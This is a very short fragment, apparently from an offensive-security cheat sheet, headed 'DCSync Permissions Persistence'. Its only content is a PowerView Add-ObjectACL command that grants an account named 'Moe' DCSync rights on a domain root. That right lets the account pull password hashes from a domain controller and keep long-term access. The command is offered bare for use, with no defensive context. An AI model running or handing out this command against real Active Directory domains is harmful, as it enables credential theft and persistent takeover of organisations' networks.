 # DCSync Permissions Persistence

Command:

    Add-ObjectACL -TargetDistinguishedName "DC=Security,DC=local" -PrincipalSamAccountName 'Moe' -Rights DCSync
